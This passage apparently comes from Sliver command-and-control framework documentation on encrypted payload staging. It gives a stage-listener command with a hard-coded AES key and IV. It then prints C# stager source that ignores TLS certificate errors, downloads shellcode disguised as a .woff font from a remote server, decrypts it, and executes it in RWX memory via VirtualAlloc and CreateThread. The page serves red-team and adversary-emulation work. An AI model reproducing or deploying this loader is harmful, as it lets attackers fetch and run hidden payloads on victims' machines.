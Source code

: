 Sliver supports encryption and compression when serving stages. Compression options are `zlib`, `gzip`, and `deflate` (level 9). Encryption is done via AES-CBC-128, since this encryption is primarily for obfuscation we don't really need a more secure cipher mode.

```
stage-listener --url http/192.168.0.52:80 --profile win-shellcode --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

If aes-encrypt-iv is not set it defaults to `0000000000000000`. After the stage generation is completed AES key and iv are displayed. Note that this example does not include compression:

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Sliver_stager
{
 class Program
 {
 private static string AESKey = "D(G+KbPeShVmYq3t";
 private static string AESIV = "8y/B?E(G+KbPeShV";
 private static string url = "http/192.168.24.128:8443/test.woff";

 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

 [DllImport("kernel32.dll")]
 static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

 [DllImport("kernel32.dll")]
 static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

 public static void DownloadAndExecute()
 {
 ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
 System.Net.WebClient client = new System.Net.WebClient();
 byte[] shellcode = client.DownloadData(url);

 List<byte> l = new List<byte> { };

 for (int i = 16; i <= shellcode.Length -1; i++) {
 l.Add(shellcode[i]);
 }

 byte[] actual = l.ToArray();

 byte[] decrypted;

 decrypted = Decrypt(actual, AESKey, AESIV);
 IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)decrypted.Length, 0x3000, 0x40);
 Marshal.Copy(decrypted, 0, addr, decrypted.Length);
 IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
 WaitForSingleObject(hThread, 0xFFFFFFFF);
 return;
 }
```
